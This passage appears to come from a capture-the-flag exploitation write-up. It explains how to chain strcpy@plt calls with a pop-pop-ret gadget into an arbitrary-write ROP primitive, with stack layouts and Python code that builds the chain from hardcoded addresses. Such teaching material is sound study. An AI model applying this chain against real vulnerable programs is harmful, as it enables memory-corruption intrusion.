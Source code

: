 
## Arbitrary writes

Further, `strcpy` is in the plt, so we have a free "write what where"
primitive via the following: 

```
padding:20
strcpy@plt:4
padding:4
dst:4
src:4
```

The 4 bytes of padding after the `strcpy` address are to simulate the
return address that would be present after `call strcpy@plt` normally.
What this means is we can chain strcpy calls by placing instead the
address of a poppopret gadget there and following this with another
strcpy ret2plt: 

```
padding:20
strcpy@plt:4
poppopret:4
dst0:4
src0:4
strcpy@plt:4
poppopret:4
dst1:4
src1:4
...
```

Clearly we can repeat this as much as we like, so we can write any
number of arbitrary bytes anywhere we like, as long as those bytes are
present at an address we know.  Ignoring for the moment the question
of where those bytes come from, this lets us write arbitrary bytes.
The `strcpy` function prepares the 4-dword structure for a single
strcpy call, and `write_bytes` chains these to write an entire list of
bytes:

```
STRCPY_PLT = 0x08048370
POP2_RET = 0x080485fa
    
def le(x):
    return x.to_bytes(WORD_SIZE, byteorder='little')

def strcpy(dst, src):
    return le(STRCPY_PLT) + le(POP2_RET) + le(dst) + le(src)
	
def write_bytes(dst, content):
    ans = bytes()
    for b in content:
        ans += strcpy(dst,byte_addr(b))
        dst += 1
    return ans
```
